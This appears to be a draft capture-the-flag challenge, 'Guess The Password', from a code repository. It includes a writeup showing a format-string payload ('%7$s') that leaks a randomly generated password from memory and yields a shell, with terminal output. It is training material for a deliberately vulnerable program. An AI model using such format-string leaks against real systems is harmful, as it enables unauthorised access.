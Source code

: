 # Name
Guess The Password

# Description
I've been trying to hack into this server, but it's locked by some password checking mechanism. Every time that an account gets locked, it randomly generates a new password. Any idea how to get past this?

TODO: Put a netcat command here telling them which server to connect to in order to test the exploit.

# Difficulty
Medium

# Flag
I haven't programmed a flag into this yet. Basically, after they exploit the program, they should get a shell into the server running this program. There should be a flag.txt file on that server in the same directory as the program, which they should be able to cat. Whoever is setting up this server can just put whatever they want into the flag.txt file and have that be the flag.

# Hints
None

# Author Name
Nihaal Prasad

# Writeup
If you type in ```%7$s``` as the password, it will print out the actual password from memory. Just paste that password in to get root access.

```
$ ./guess
What's the password?: %7$s
Incorrect password: k73<&e3J+T0#`%`Ezcu64J.HfOX3=}nDP#zV$/<0}fM_(0&>s8T)b}kdN_3k^#K1AG#_VZooBYPdiq$xEs=)r**Bj=JJ[1u8Y5wKo%=M^)4cz8]A-ze;&+x,b^q?ohqJ}'v*FOX@Xl%U@b2hxw%:$}Gg]:Bi>P5>WGb9v<YQ*^Be\TOpNn,lnmog)NRb $<qK FD=!1aySHq)3cq$+z.y'1>U "o$X|iYDIv_ZstIXgmkfzo.29C:K{+K 7irOn
What's the password?: k73<&e3J+T0#`%`Ezcu64J.HfOX3=}nDP#zV$/<0}fM_(0&>s8T)b}kdN_3k^#K1AG#_VZooBYPdiq$xEs=)r**Bj=JJ[1u8Y5wKo%=M^)4cz8]A-ze;&+x,b^q?ohqJ}'v*FOX@Xl%U@b2hxw%:$}Gg]:Bi>P5>WGb9v<YQ*^Be\TOpNn,lnmog)NRb $<qK FD=!1aySHq)3cq$+z.y'1>U "o$X|iYDIv_ZstIXgmkfzo.29C:K{+K 7irOn
You guessed correctly!
$ ls
guess
$
```
